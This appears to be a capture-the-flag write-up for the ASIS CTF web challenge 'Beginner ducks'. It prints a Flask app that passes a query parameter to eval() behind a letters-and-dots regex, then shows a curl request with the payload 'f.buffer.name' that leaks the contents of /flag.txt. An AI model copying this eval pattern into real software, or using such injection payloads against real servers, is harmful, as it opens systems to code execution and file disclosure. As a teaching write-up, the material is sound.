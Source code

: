 ```yaml
---
description: WEB | 37 pts - 176 solves
---
```


# Beginner ducks

> Hiiiii, welcome to ASIS CTF. We have ducks. Check them out http://ducks.asisctf.com:8000/. Download source-code from here.

Source code:

```python
#!/usr/bin/env python3
from flask import Flask,request,Response
import random
import re

app = Flask(__name__)
availableDucks = ['duckInABag','duckLookingAtAHacker','duckWithAFreeHugsSign']
indexTemplate = None
flag = None

@app.route('/duck')
def retDuck():
	what = request.args.get('what')
	duckInABag = './images/e146727ce27b9ed172e70d85b2da4736.jpeg'
	duckLookingAtAHacker = './images/591233537c16718427dc3c23429de172.jpeg'
	duckWithAFreeHugsSign = './images/25058ec9ffd96a8bcd4fcb28ef4ca72b.jpeg'

	if(not what or re.search(r'[^A-Za-z\.]',what)):
		return 'what?'

	with open(eval(what),'rb') as f:
		return Response(f.read(), mimetype='image/jpeg')

@app.route("/")
def index():
	return indexTemplate.replace('WHAT',random.choice(availableDucks))

with open('./index.html') as f:
	indexTemplate = f.read() 
with open('/flag.txt') as f:
	flag = f.read()

if(__name__ == '__main__'):
	app.run(port=8000)
```

It's clear that this `eval()` is dangerous, since it'll execute the python code that we pass to the `?what` parameter and return the result in the response. We can verify the vulnerability by running the code locally and passing to it the variable `duckInABag`, which evaluates to: `'./images/e146727ce27b9ed172e70d85b2da4736.jpeg'`, so code will be:

```python
	with open('./images/e146727ce27b9ed172e70d85b2da4736.jpeg','rb') as f:
		return Response(f.read(), mimetype='image/jpeg')
```

and therefore show us the image.\
There's some input filtering with the regex: `[^A-Za-z\.]`; it will only accept letters and the dot symbol. So how can we read `/flag.txt` if `/` isn't allowed?\
We can try to read the file descriptor properties. i.e: `f.buffer.name` will evaluate to: `/flag.txt`.

```shell
$ curl http://ducks.asisctf.com:8000/duck?what=f.buffer.name
ASIS{run-away-ducks-are-coming-🦆🦆}
```

